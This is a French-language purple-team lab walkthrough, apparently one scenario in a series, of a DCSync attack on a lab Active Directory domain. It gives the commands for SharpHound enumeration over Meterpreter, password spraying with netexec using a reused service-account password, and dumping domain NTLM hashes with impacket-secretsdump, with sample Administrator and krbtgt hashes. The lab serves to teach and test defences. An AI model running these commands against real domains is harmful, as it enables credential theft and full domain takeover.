



## Attaque

### Contexte

`svc-sync` possède les droits de réplication sur le domaine (`GetChanges` et `GetChangesAll`). Ces droits permettent de se faire passer pour un contrôleur de domaine et de demander tous les hashes NTLM du domaine via le protocole de réplication DRSUAPI.

> Dans ce lab Kali partage le réseau avec le DC, ce qui permet de lancer l'attaque directement. En conditions réelles elle serait exécutée depuis la machine compromise via Rubeus, ou depuis le C2 via un tunnel SOCKS.

### Technique MITRE

| ID | Technique | Tactique |
|----|-----------|----------|
| T1003.006 | DCSync | Credential Access |

### Prérequis

| Élément   | Valeur                                                                    |
| --------- | ------------------------------------------------------------------------- |
| Accès     | Session Meterpreter (alice) sur WS01                                      |
| Cible     | DC01 -> 192.168.10.100                                                    |
| Condition | svc-sync doit avoir les droits GetChanges et GetChangesAll sur le domaine |

### Exécution

#### 1. Découverte des droits de réplication (BloodHound)

Uploader SharpHound sur WS01 depuis le session meterpreter (05_Persistence) sur Kali :

```bash
upload /usr/share/sharphound/SharpHound.exe C:\\Users\\alice.LAB\\Downloads\\SharpHound.exe
```

```
shell
```

Exécuter SharpHound pour qu'il collecte les données AD depuis WS01 :

```
SharpHound.exe -c All
```

Le fichier ZIP généré est download sur Kali :

```bash
download C:\\Users\\alice.LAB\\Downloads\\20260612001023_BloodHound.zip /tmp/
```

Une fois importé dans BloodHound, on cherche des relations sensibles :




`svc-sync` a le droit `DCSync` sur le domaine `LAB.LOCAL`.

#### 2. Obtention des credentials de svc-sync (Password Spraying)

Le compte `svc-sync` découvert via `net user /domain` est testé avec le mot de passe
de `svc-backup` déjà obtenu au scénario 06 (`P@ssw0rd123`). Un admin ayant configuré plusieurs comptes de service avec le même mot de passe est un cas courant en entreprise.

```bash
netexec smb 192.168.10.100 -u ~/lab_purple_team/users.txt -p 'P@ssw0rd123' -d lab.local
```



`svc-sync` est vulnérable : `P@ssw0rd123` est valide.

#### 3. DCSync - Dump des hashes du domaine

```bash
impacket-secretsdump lab.local/svc-sync:'P@ssw0rd123'@192.168.10.100
```

| Option                             | Signification                                            |
| ---------------------------------- | -------------------------------------------------------- |
| `impacket-secretsdump`             | Outil qui implémente le protocole de réplication DRSUAPI |
| `lab.local/svc-sync:'P@ssw0rd123'` | Credentials avec droits de réplication                   |
| `@192.168.10.100`                  | IP du DC ciblé                                           |



### Résultat

| Compte        | Hash NTLM                        |
| ------------- | -------------------------------- |
| Administrator | 2ec790d9df55e3507f109042e1696371 |
| krbtgt        | f51548c3f921c9480cec9df614d313d9 |

Tous les hashes NTLM du domaine sont obtenus. Le hash `krbtgt` permet de forger
un Golden Ticket (scénario 09).
